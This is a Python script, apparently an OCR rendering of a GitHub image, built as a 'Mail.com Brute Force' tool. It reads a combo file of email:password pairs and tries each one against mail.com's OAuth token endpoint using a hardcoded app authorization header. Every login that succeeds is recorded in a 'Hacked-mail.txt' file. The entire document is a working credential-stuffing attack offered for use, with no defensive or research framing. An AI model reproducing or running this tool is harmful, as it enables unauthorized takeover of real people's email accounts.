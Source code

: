try:
	import requests,threading
	Lists='V4^c_Yf4TEw'
except Exception as Joker:exit(Joker)
PRNT = threading.Lock()
r=requests.session()
def vv1ck(*a, **b):
	with PRNT:
		print(*a, **b)
print("""
 __  __       _ _  Brute Force
|  \/  | __ _(_) |     ___ ___  _ __ ___  
| |\/| |/ _` | | |    / __/ _ \| '_ ` _ \ 
| |  | | (_| | | | _ | (_| (_) | | | | | |
|_|  |_|\__,_|_|_|(_) \___\___/|_| |_| |_|
""")
yes='access_token';no='Perm.ACCOUNT_NOT_FOUND_OR_PASSWORD_WRONG';donE=20
def Check_mail(eml,pess):
	headers={
	'Host': 'oauth2.mail.com',
	'Accept': '*/*',
	'Content-Type': 'application/x-www-form-urlencoded; charset=utf-8',
	'Authorization': 'Basic bWFpbGNvbV9tYWlsYXBwX2lvczpFcTg3Wlc3VzZ0Vm9mbHFIWXpEVWx4bHZ6MXFOUFpYcGJvS0EwZzd0',
	'Content-Length': '97',
	'Accept-Language': 'ar',
	'X-Ui-Track-Operation': 'PACSCreateRefreshTokenOperation',
	'User-Agent': 'mail.com/6127 CFNetwork/1126 Darwin/19.5.0',
	'X-Ui-App': 'mailcom.ios.iosmail/8.26.6127',
	'Accept-Encoding': 'gzip, deflate',
	'Connection': 'close'}
	send=r.post('https://oauth2.mail.com/token',headers=headers,data='device%5Fname=iOS%5FDevice&username='+eml+'&password='+pess+'&grant%5Ftype=password')
	if yes in send.text:
		vv1ck(f'[+] Hacked: {eml}:{pess}')
		with open('Hacked-mail.txt', 'a') as J:J.write(eml+':'+pess+' |@vv1ck\n')
	elif no in send.text:vv1ck(f'[-] Not hacked: {eml}:{pess}')
	elif send.status_code == 429:exit('[!] ERROR ...')
	else:vv1ck(send.text)
Lis='V4^c_Yf4TEw'
def Email_File():
	QTR = input('\n[+] Enter the name the combo email file: ')
	try:
		vv1ck('\n\t ━━━━━━━━━━━━ Started ━━━━━━━━━━━━\n')
		for x in open(QTR,'r').read().splitlines():
			if x ==None:exit('\n     ========== completed =========')
			try:eml = x.split(":")[0]
			except IndexError:exit('\n     ========== completed =========')
			try:
				pess = x.split(":")[1]
				Check_mail(eml,pess)
			except IndexError:pass
	except FileNotFoundError:
		vv1ck('\n[-] The file name is incorrect !\n')
		return Email_File()
def File_Mail():
	if Lis in Lists:pass
	else:exit('Okay..')
	JOlist=[]
	for JJNN1 in Lists:
		posi=ord(JJNN1)
		NW=chr(posi-donE)
		JOlist.append(NW)
	DN=''.join(JOlist)
	print('\t\t\t\t'+DN)
	Email_File()
File_Mail()

